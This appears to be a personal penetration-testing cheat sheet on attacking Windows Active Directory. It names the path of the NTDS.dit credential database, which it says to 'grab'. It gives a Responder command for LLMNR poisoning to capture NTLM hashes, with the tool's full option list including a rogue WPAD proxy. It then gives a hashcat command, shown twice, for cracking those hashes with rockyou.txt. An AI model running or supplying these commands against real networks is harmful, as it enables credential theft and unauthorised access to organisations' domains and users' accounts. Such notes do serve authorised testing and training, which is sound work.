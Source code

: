 # Attacking:
### Data Store:
```
%SystemRoot%\NTDS\Ntds.dit
C:\Windows\NTDS\Ntds.dit
```
always check for this file and grab it. only accessible through the domian controller and contains everything in Active Directory. 


## LLMNR Poisoning: 
#### Responder:
gather hashes over the network passively 
```
sudo python /usr/share/responder/Responder.py -I eth0 -rdw -v 
```

Options:
```
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```
save hashses to file called hashes.txt

#### Hashcat:
using the password file rockyou.txt and the NTLM module to crack passwords
```
hashcat -m 5600 hashes.txt rockyou.txt --force
```
using the password file rockyou.txt to crack passwords
```
hashcat -m 5600 hashes.txt rockyou.txt --force
```
